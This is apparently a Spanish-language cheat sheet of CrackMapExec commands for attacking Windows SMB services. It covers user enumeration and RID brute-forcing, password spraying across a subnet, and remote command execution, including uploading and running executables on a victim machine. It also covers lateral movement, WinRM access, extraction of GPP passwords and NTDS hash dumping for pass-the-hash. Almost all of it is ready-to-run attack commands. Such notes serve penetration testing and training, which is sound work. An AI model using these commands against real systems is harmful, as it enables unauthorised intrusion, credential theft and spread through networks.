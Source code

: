 ## **🔹 Uso básico de [[Crackmapexec (CME)]] en SMB**

### **1️⃣ Escanear un objetivo para ver si SMB está disponible**

`crackmapexec smb IP_O_HOST`

### **2️⃣ Enumerar usuarios en SMB**

`crackmapexec smb IP_O_HOST -u usuario -p contraseña --users`

### **2️⃣ Enumerar usuarios mediante RID Brute-Forcing en SMB**

`crackmapexec smb IP_O_HOST -u guest -p '' --rid-brute
`
### **3️⃣ Enumerar recursos compartidos (shares)**

`crackmapexec smb IP_O_HOST -u usuario -p contraseña --shares`

### **4️⃣ Probar una lista de usuarios y contraseñas en SMB**

`crackmapexec smb IP_O_HOST -u usuarios.txt -p contraseñas.txt`

Si quieres probar contra varios hosts en una red:

`crackmapexec smb 192.168.1.0/24 -u usuarios.txt -p contraseñas.txt`

### **🔹 1️⃣ Enumerar usuarios SMB con un diccionario usando `crackmapexec`**

`crackmapexec` permite probar nombres de usuario en SMB sin necesidad de credenciales.

`crackmapexec smb IP_DEL_SERVIDOR -u diccionario.txt -p ''`

🔹 **Ejemplo:**

`crackmapexec smb 192.168.1.100 -u nombres.txt -p ''`

✅ **Salida esperada (si el usuario existe):**

`SMB         192.168.1.100    445    WIN-SERVER    [*] Guest login allowed SMB         192.168.1.100    445    WIN-SERVER    [+] Valid account: 'usuario1:' SMB         192.168.1.100    445    WIN-SERVER    [+] Valid account: 'admin:'`

### **5️⃣ Ejecución de comandos remotos**

Si tienes credenciales válidas, puedes ejecutar un comando en el sistema remoto:

`crackmapexec smb IP_O_HOST -u usuario -p contraseña -x "whoami"`

También puedes cargar y ejecutar archivos `.exe` en la máquina víctima:

`crackmapexec smb IP_O_HOST -u usuario -p contraseña -X "ruta/del/archivo.exe"`

---

## **🔹 Movilidad lateral con CME**

Si obtienes credenciales válidas, puedes utilizarlas para moverte en la red.  
Ejemplo de escaneo en toda la red para detectar más máquinas donde funcionen las credenciales:

`crackmapexec smb 192.168.1.0/24 -u usuario -p contraseña`

Si un usuario tiene permisos de administrador, puedes **activar WinRM y obtener acceso remoto**:

`crackmapexec winrm IP_O_HOST -u usuario -p contraseña`

---

## **🔹 Detección de GPOs y hashes NTLM**

Puedes extraer información de políticas de grupo (GPOs) o incluso credenciales en texto claro si hay configuraciones débiles:

`crackmapexec smb IP_O_HOST -u usuario -p contraseña --gpp-passwords`

Si tienes acceso a un equipo, puedes obtener hashes NTLM de usuarios para ataques Pass-the-Hash (PTH):

`crackmapexec smb IP_O_HOST -u usuario -p contraseña --ntds`